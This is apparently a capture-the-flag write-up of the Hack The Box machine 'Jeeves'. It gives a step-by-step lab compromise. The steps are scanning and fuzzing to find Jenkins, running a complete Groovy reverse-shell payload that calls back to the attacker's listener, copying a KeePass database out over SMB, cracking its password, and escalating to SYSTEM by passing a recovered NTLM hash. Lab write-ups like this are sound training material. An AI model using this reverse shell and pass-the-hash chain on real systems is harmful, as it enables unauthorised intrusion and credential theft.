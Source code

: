 ```yaml
---
layout: post
title: HTB Machine - Jeeves
subtitle: Writeup
cover-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
thumbnail-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
share-img: https://www.hackthebox.com/storage/avatars/709059a710d3d6ff1ba32bf0729ecbb8.png
tags: [ HTB, Hack the Box,Web Forensics,Vulnerability Assessment,Security Tools,Authentication,Weak Credentials,Remote Code Execution,Powershell]
---
```

scans:
```zsh
TTL :windows.

sudo nmap -sS 10.10.10.63 --open --min-rate 5000 -n -Pn -oG ./nmap/allports

sudo nmap -sCV 10.10.10.63 -p80,135,445,50000 -oN ./nmap/targeted
```

Website is static. On port 50000 there is no other than a redirect to another website. We will try fuzing the website then. 

```zsh
ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://10.10.10.63:50000/FUZZ -ic
askjeeves              
```
We get access to a jenkins manager website. By going to manage jenkins-script console we could execute groovy scripts. Simply searching groovy reverse shell script we come accross a reverse shell generator. 

https://www.revshells.com/

Enter your ip, port and copy the command with rlwrap+nc (that way we have interactive console capabilities). Execute it in your attackers terminal.
```zsh
rlwrap -cAr nc -lvnp 8044
```

under the reverse tab select groovy (bottom of the list), shell:cmd and encoding:none. Input the script inside the script console in the manage jenkins website and run it to get a console inside the target machine. 
```zsh
String host="10.10.14.5";int port=8044;String cmd="cmd";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
Once in we can go for the user flag
```zsh
more c:\Users\kohsuke\Desktop\user.txt
```

Doing some recon in the documents folder of the user we notice a .kdbx file. Kdbx is the data files created by KeePass Password Safe are and they usually refer to the KeePass Password Database. These files contain passwords in an encrypted database wherein they can only be viewed if the user set a master password and accessed them through that master password. Interesting indeed so lets download it to our attack machine by setting up a smbfolder to upload the file to.  
```
sudo impacket-smbserver smbFolder $(pwd) -smb2support

copy CEH.kdbx \\10.10.14.5\smbFolder\CEH.kdbx
```
To open the file we will need a tool for it. 
```
sudo apt install keepassxc
keepassxc CEH.kdbx
```
It is asking for a password that we dont have, trying the usual passwords does not bring any results. But we can try to crack the pass with john. First we will use keepass2john to generate a hash. Then we use john to crack the pass from the hash.
```zsh
keepass2john CEH.kdbx > hash

john -wordlist=/usr/share/wordlists/rockyou.txt hash
moonshine1
```
Now we have the password we can examine the password database. There are several interesting entries, but if we check 'backup stuff' password we see an interesting format. It looks more like a hash. Lets validate if thats the hash for the admin password with crackmapexec. 
```zsh
cme smb 10.10.10.63 -u "Administrator" -H "aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00"
SMB         10.10.10.63     445    JEEVES           [*] Windows 10 Pro 10586 x64 (name:JEEVES) (domain:Jeeves) (signing:False) (SMBv1:True)
SMB         10.10.10.63     445    JEEVES           [+] Jeeves\Administrator:e0fb1fb85756c24235ff238cbe81fe00 (Pwn3d!)
```
Then we will gain root passing the hash with psexec.
```powershell
psexec.py WORKGROUP/Administrator@10.10.10.63 -hashes ':e0fb1fb85756c24235ff238cbe81fe00'

C:\Windows\system32> whoami
nt authority\system
```
If we read the file present in the admin desktop folder the message says the flag is somewhere else. 
```powershell
c:\Users\Administrator\Desktop> more hm.txt
The flag is elsewhere.  Look deeper.
```
Going around the file system brings no fruits, so we can look into alternate data strings. An Alternate Data Stream is a little-known feature of the NTFS file system. It has the ability of forking data into an existing file without changing its file size or functionality. Think of ADS as a 'file inside another file'. With that knowledge and looking into the Desktop folder we find out our flag is present.
```powershell
dir /s /r

more < hm.txt:root.txt
```
